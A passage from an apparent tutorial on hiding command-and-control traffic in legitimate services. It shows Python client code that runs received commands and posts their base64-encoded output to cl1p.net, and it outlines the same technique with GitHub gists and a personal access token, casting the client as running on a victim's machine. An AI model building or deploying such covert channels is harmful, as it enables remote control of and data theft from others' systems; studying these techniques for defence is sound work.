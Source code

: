 ```Python
            'ttl': '0',
            'content': base64.b64encode(output.encode()).decode(),
            }
            response = requests.post('https://cl1p.net/'+RESPONSE_ID, data=data, verify=False)
        else:
            time.sleep(1)

```
On the client-side, it keeps monitoring the address where the command is stored. When the address contains a command, it executes it. After execution, it sends the command’s output to a different address where the server can retrieve it and similar to the server code, `ttl` is also set to `0` here to delete the content once viewed.

### Execution
Let's see it in action now:
![clip](./images/clip-1.png)
As you can see I tried to give it some commands and it executed them and sent me the results. In a real world scenario, `client.py` would be in victim's system and `server.py` in attacker's.

## Github
> "GitHub is a proprietary developer platform that allows developers to create, store, manage, and share their code." - Github

In the case of [github](https://github.com), one of the scenarios that can be implmeneted is to create a private/public gist storing the command in the first comment or in a file. Then the script can read it executing the command as well as creating a new comment to store its output there.

### Prerequisites
For this scenario to work we have to create a Personal Access Token(PAT) in github. Moreover the PAT should have permissions over gist:
![git](./images/git-2.png)
